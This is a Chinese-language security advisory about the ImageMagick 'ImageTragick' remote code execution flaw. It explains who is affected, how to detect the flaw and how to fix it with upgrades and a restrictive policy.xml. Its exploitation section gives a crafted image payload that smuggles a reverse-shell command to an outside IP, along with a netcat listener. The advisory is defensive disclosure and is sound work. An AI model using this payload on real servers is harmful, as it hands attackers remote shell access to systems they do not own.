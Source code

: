 ```yaml
---
description: 详细介绍ImageMagick的漏洞危害自测方法、利用方式EXP和修复方案。
---
```


# ImageMagick安全详解

Feei <feei#feei.cn>

## 1. 漏洞危害 
ImageMagick是用来处理图片的通用组件，涉及众多语言与平台。 

- PHP(imagick/MagickWand) 
- Python(PythonMagick) 
- Java(JMagick) 
- Nodejs(imagemagick) 
- Ada(G2F) 
- C(MagickCore/MagickWand) 
- Ch(ChMagick) 
- C++(Magick++) 
- Lisp(L-Magick) 
- Neko/haXe(nMagick) 
- Pascal(PascalMagick) 
- Perl(PerlMagick) 
- Ruby(RMagick) 
- Tcl/TK(TclMagick) 

此次漏洞导致的直接危害为**远程代码执行（RCE）** 也就是说，如果你的业务中有用到ImageMagick处理图片，则攻击者只需要上传一个特殊构造的图片即可拿到你服务器的权限。 

## 2. 检查是否有使用

一般ImageMagick用在处理图片的裁剪、压缩以及水印等地方。如果你网站有上传图片的地方，就极有可能用到了。

可以通过关键字搜索： 

PHP代码关键字：```Imagick``` 
Java代码关键字：```MagickImage``` 

## 3. 检测方式 

#### 1. 通过版本号确认是否存在 

**6.9.3-9**之前的版本都存在该漏洞(**6.9.3-9**版本不完全修复该漏洞)，建议升级至最新的**2016-05-09 7.0.1-3**。 
```bash 
$ convert --version 
Version: ImageMagick 6.8.3-7 2013-07-30 Q16 http://www.imagemagick.org 
Copyright: Copyright (C) 1999-2013 ImageMagick Studio LLC 
Features: DPC OpenMP Delegates: bzlib fontconfig freetype gslib jng jpeg pango png ps tiff x xml zlib 
```

#### 2. 检测脚本 

```bash 
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
``` 

## 4. 利用方式 

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890 

```bash 
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。 

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL 

## 5. 修复方式 

**升级ImageMagick至最新的[2016-05-09 7.0.1-3](http://www.imagemagick.org/script/binary-releases.php)版本。** 

如果无法快速升级，先临时做好以下两点： 
1. 处理图片前，先检查图片的magic bytes，也就是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。如果你是php用户，可以使用getimagesize函数来检查图片格式，而如果你是wordpress等web应用的使用者，可以暂时卸载ImageMagick，使用php自带的gd库来处理图片。 

2. 使用policy file来防御这个漏洞，这个文件默认位置在 /etc/ImageMagick/policy.xml ，我们通过配置如下的xml来禁止解析https等敏感操作： 

```xml 
<policymap>  
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
```

### 参考 
- [ImageMagick Changelog](http://www.imagemagick.org/script/changelog.php) 
- [ImageTragick](https://imagetragick.com/)
- [PHP Imagick](http://pecl.php.net/package/imagick)
